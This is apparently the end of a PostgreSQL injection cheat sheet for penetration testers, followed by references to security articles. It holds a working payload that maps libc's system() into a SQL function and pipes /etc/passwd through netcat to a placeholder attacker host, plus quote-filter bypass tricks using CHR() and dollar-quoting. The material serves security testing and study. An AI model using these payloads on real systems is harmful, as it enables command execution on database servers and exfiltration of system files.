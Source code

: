 ![https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png](https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png)

### Using libc.so.6

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```

### Bypass Filter

#### Quotes

Using CHR

```sql
SELECT CHR(65)||CHR(66)||CHR(67);
```

Using Dollar-signs  ( >= version 8 PostgreSQL)

```sql
SELECT $$This is a string$$
SELECT $TAG$This is another string$TAG$
```



## References

* [A Penetration Tester’s Guide to PostgreSQL - David Hayter](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
* [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest - Mar 20 2019 - GreenWolf](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
* [SQL Injection /webApp/oma_conf ctx parameter (viestinta.lahitapiola.fi) - December 8, 2016 - Sergey Bobrov (bobrov)](https://hackerone.com/reports/181803)
* [POSTGRESQL 9.X REMOTE COMMAND EXECUTION - 26 Oct 17 - Daniel](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)
* [SQL Injection and Postgres - An Adventure to Eventual RCE - May 05, 2020 - Denis Andzakovic](https://pulsesecurity.co.nz/articles/postgres-sqli)
* [Advanced PostgreSQL SQL Injection and Filter Bypass Techniques - 2009 - INFIGO](https://www.infigo.hr/files/INFIGO-TD-2009-04_PostgreSQL_injection_ENG.pdf)
